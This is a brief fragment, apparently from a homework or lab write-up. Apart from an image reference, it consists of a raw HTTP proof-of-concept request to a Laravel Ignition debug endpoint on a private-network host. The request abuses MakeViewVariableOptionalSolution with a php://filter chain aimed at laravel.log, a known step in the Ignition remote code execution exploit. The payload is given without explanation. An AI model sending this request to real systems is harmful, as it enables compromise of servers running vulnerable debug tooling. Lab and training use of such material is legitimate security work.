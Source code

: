 ![1747670718439](image/homework/1747670718439.png)



---

```poc
POST /_ignition/execute-solution HTTP/1.1

Host: 192.168.20.12:42094

Content-Type: application/json

Content-Length: 330



{

  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",

  "parameters": {

    "variableName": "username",

    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"

  }

}
```